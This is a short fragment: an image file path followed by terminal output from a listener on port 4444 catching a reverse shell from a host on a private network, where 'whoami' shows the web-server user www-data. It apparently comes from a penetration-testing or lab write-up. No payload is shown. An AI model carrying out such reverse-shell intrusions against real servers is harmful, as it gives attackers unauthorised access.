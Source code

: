 ```
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.100] 40869
sh: no job control in this shell
sh-3.2$ whoami
www-data
```
